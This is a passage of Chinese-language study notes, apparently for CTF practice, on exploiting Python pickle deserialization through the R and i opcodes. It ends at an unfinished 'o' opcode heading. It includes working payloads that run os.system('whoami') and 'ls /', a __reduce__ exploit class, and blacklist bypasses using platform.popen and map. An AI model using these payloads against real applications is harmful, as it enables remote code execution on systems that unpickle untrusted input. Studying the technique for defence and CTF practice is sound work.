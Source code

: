 # 利用方法
## `R`指令
### 原理
大多数题目利用`__reduce__`方法，其指令码为`R`，作用为：
- 取栈顶元素为`args`，弹出
- 取栈顶为`f`，弹出
- `arg`为参数，执行`f`，结果压入栈

此方法会在反序列化的时候执行，`f`会返回字符串或元组。

选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数

```text
b'''cos
system
(S'whoami'
tR.'''
```

利用此方法构造恶意字符串：
```python
class Student():  
    def __init__(self):  
        self.name = "rxz"  
        self.grade = "G2"  
  
    def __reduce__(self):  
        return os.system, ("ls /",)  
  
  
a = pickle.dumps(Student(), protocol=3)
```

### 绕过方式
1. 如果黑名单没禁全，尝试`platform.popen(cmd, mode='r', bufsize=-1)
2. 使用`map`
```python
class Exploit(object):
    def __reduce__(self):
 	return map,(os.system,["ls"])
```

## `i`指令码

```text
b'''(S'whoami'
ios
system
.'''
```
先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象）。
```text
    0: (    MARK
    1: S        STRING     'whoami'
   11: i        INST       'os system' (MARK at 0)
   22: .    STOP
```
## `o`指令码
